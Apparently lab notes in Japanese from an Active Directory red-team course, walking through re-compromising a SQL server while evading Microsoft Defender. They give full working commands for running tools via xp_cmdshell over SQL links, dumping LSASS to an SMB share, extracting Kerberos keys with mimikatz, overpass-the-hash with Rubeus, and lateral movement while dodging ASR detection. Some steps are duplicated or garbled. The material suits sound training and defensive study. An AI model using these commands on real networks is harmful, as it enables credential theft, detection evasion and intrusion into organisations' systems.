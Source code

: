 ## Task
eu-sqlxを再び危険にさらす。MDEとMDIをバイパスするために、opsecフレンドリーな代替手段を使用する。

## 解決
eu-sqlx上でSYSTEMとしてコマンドを実行できる。
これはLSASSダンプからさらに永続的なクレデンシャルアクセスを得るために活用するために最適である。

LSASSプロセスのメモリダンプするにはまず、minidumpdotnetを活用する。
MiniDumpWriteDump()APIコールのcustom実装を使用しているため、AV/MDEでは検出されない。

## 手順
### Tools Transfer and Execution 
1. HTTP経由のダウンロードは、他の危険なアクションと連鎖して検出される可能性が高くなるため、SMB共有からの実行を禁止する。
以下の設定でstudentsharexというSMB共有を作成する。
共有のEveryoneにRead and Write権限をつける。
![[Pasted image 20250118191106.png]]
---
2. minidumpdotnetとFindLSASSPIDツールを共有にコピーする。
```
C:\AD\Tools> copy C:\AD\Tools\minidumpdotnet.exe \\dcorp-studentx\studentsharex 
C:\AD\Tools> copy C:\AD\Tools\FindLSASSPID.exe \\dcorp-studentx\studentsharex
```
---
3. minidumpdotnetとFindLSASSPIDツールを共有にコピーする。
```
C:\AD\Tools> copy C:\AD\Tools\minidumpdotnet.exe \\dcorp-studentx\studentsharex

C:\AD\Tools> copy C:\AD\Tools\FindLSASSPID.exe \\dcorp-studentx\studentsharex
```
---
### LSASS DUMP using Custom APIs 
1. LSASS PIDを列挙します。
InvisiShellを使用してPowerShellセッションを開始、PowerUpSQLをインポートして次のコマンドを実行する。
```
C:\AD\Tools>C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat 
PS C:\AD\Tools> Import-Module C:\AD\Tools\PowerUpSQL-master\PowerupSQL.ps1
PS C:\AD\Tools> Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''\\dcorpstudent828.dollarcorp.moneycorp.local\studentsharex\FindLSASSPID.exe''' QueryTarget eu-sql1 
 
[..snip..] 
 
Version     : SQL Server 2019 
Instance    : EU-SQLX 
CustomQuery : {[+] LSASS PID: 712, } 
Sysadmin    : 1 
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT, EU
SQLX.EU.EUROCORP.LOCAL} 
User        : sa 
Links       : 
```
※注意:LSASS PIDは、LABインスタンスごとに異なる。

---
2. 検出の連鎖を避けるため以下のコマンドを実行する。
```
PS C:\AD\Tools> Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'SELECT @@version' -QueryTarget eu-sql1
 
[..snip..] 
```
---
3. minidumpdotnetツールを使ってLSASSダンプを実行し、studentxに保存する。
※注意:eu-sqlのディスクに直接LSASSダンプを実行すると、.dmpファイルが破損することができる。
EDRはディスクに書き込まれた.dmpファイルを破損することがある。
```
PS C:\AD\Tools> Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''\\dcorp-studentx.dollarcorp.moneycorp.local\studentsharex\minidumpdotnet.exe 712 \\dcorp-studentx.dollarcorp.moneycorp.local\studentsharex\monkeyx.dmp ''' QueryTarget eu-sqlx 
 
[..snip..] 
 
Version     : SQL Server 2019 
Instance    : EU-SQLX 
CustomQuery :  
Sysadmin    : 1
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT, EU
SQLX.EU.EUROCORP.LOCAL} 
User        : sa 
Links       :
```
---
4. メモリ・ダンプはファイル共有に書き込まれるため、最大10分間持つ必要があることに注意する必要がある。
ダンプファイルのサイズは最初じゃ0KBだが最終的に10MBくらいになる。
```
PS C:\AD\Tools> Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'SELECT * FROM master.dbo.sysdatabases' -QueryTarget eu-sqlx 
 
[..snip..] 
```
---
5. stdentVMに戻り、次のようにして流出したLSASSのミニダンプ(monkey.dmp)を解析する。
mimikatzを使って次のように解析する。
昇格シェル(管理者として実行)から以下のコマンドを実行する。

注意:ミニダンプファイルの解析でエラーが出た場合、学生VMのメモリが枯渇している可能性があるため、サインアウト、サインインを試みる必要がある。
```
C:\Windows\System32>C:\AD\Tools\mimikatz.exe "sekurlsa::minidump 
C:\AD\Tools\studentsharex\monkeyx.dmp" "sekurlsa::ekeys" "exit" 
 
  .#####.   mimikatz 2.2.0 (x64) #19041 Dec 23 2022 16:49:51 
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) 
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com ) 
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz 
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com ) 
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/ 
 
[....snip....] 
 
Authentication Id : 0 ; 225670 (00000000:00037186) 
Session           : RemoteInteractive from 2 
User Name         : dbadmin 
Domain            : EU 
Logon Server      : EU-DC 
Logon Time        : 10/27/2023 5:51:45 AM 
SID               : S-1-5-21-3665721161-1121904292-1901483061-1105 
 
         * Username : dbadmin 
         * Domain   : EU.EUROCORP.LOCAL 
         * Password : (null) 
         * Key List : 
           aes256_hmac       
ef21ff273f16d437948ca755d010d5a1571a5bda62a0a372b29c703ab0777d4f 
           rc4_hmac_nt       0553b02b95f64f7a3c27b9029d105c27 
           rc4_hmac_old      0553b02b95f64f7a3c27b9029d105c27 
           rc4_md4           0553b02b95f64f7a3c27b9029d105c27 
           rc4_hmac_nt_exp   0553b02b95f64f7a3c27b9029d105c27 
           rc4_hmac_old_exp  0553b02b95f64f7a3c27b9029d105c27
```
---
6. ここで、Rubeusを使用して学生VMでOverpass-the-hashを使用し、eu.eurocorp.localのメンバーである。
管理者として以下のコマンドを実行する。
```
C:\Windows\system32>echo %Pwn% 
asktgt 
C:\Windows\system32> C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn%/user:dbadmin /aes256:ef21ff273f16d437948ca755d010d5a1571a5bda62a0a372b29c703ab0777d4f /domain:eu.eurocorp.local /dc:eu-dc.eu.eurocorp.local /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt 
 
[...snip...] 
 
[+] Ticket successfully imported! 
 
  ServiceName              :  krbtgt/EU.EUROCORP.LOCAL 
  ServiceRealm             :  EU.EUROCORP.LOCAL 
  UserName                 :  dbadmin 
  UserRealm                :  EU.EUROCORP.LOCAL 
[snip] 
```
---
### Lateral Movement – ASR Rules Bypass 
1. これでwinrsを使ってeu-sqlxにアクセスできる。
生成されたプロセスから以下のコマンドを実行する。
```
C:\Windows\system32>winrs -r:eu-sqlx.eu.eurocorp.local cmd 
Microsoft Windows [Version 10.0.20348.1249] 
(c) Microsoft Corporation. All rights reserved. 
 
C:\Users\dbadmin>set username 
set username 
USERNAME=dbadmin 
```
なおwinrsの仕様はMDEでは検出されないが、MDI(Microsoft Defender for Identity)で検出される。

---
2. 検出を回避するにはWSManWinRM.exeツールを使用する。
ASR除外を追加する。
PSExecおよびWMIコマンドに由来するプロセス作成をブロックする。
ASRルールからの検出を非検出するためにASR除外を設定する。
```
C:\Windows\system32>C:\AD\Tools\WSManWinRM.exe eu-sqlx.eu.eurocorp.local "cmd /c set username C:\Windows\ccmcache\" 
[*] Creating session with the remote system... 
[*] Connected to the remote WinRM system 
[*] Result Code: 000001C1F2FD2AC8 
C:\Windows\system32> 
```

---
3. コマンドの出力を見るには、コマンドを生徒VM上の共有にリダイレクトすればよい。
```
C:\Windows\system32>C:\AD\Tools\WSManWinRM.exe eu-sqlx.eu.eurocorp.local "cmd /c dir >> \\dcorp-studentx.dollarcorp.moneycorp.local\studentsharex\out.txt 
C:\Windows\ccmcache\" 
[*] Creating session with the remote system... 
[*] Connected to the remote WinRM system 
[*] Result Code: 000001C1F2FD2AC8 
C:\Windows\system32> 
```

---
